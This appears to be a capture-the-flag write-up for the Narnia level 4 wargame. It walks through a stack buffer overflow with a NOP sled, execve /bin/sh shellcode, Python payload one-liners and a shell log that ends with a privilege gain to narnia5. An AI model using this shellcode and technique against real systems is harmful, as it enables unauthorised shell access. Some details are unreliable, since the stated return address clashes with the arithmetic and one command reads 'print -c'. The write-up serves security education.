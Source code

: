 

### Step 4: Writing and Applying the Exploit

We know that the Stack has a size of 272 bytes and that the return address is **0xffffd5dc**. If we add the return address, it sums to 276.

Now we have some freedom to choose where to place our shellcode. Let's say, we place it somewhere in the middle, say, at the position 134. In the memory, we get: ```0xffffd5cc - 134 = 0xffffd546```.

Since 276 minus 134 is 142, if we point the return address to **0xffffd546**, it will go to the 142th position in the Stack and execute whatever is there. We want to make sure that the return address will always end in the shellcode address and for this reason, we fill the addresses around with NOPs.


We will borrow the shellcode from the previous levels, which has size of 25 bytes:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80
```

Considering the values above, we can write the following exploit:

```
`python -c "print '\x90'*142 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*105 + '\x46\xd5\xff\xff'"`
```

We could have used another address to craft another version of the exploit. Then we would have to simply adjust our NOPs and our paddings. For example, ```0xffffd5cc - 120 = 0xffffd554```:

```
`print -c "'\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'" `
```

They both work.

We finally apply our exploit:
```
narnia4@melinda:/tmp$ python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"
������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��P���
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT���
narnia4@melinda:/tmp$ /narnia/narnia4 `python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"`
$ whoami
narnia5
```

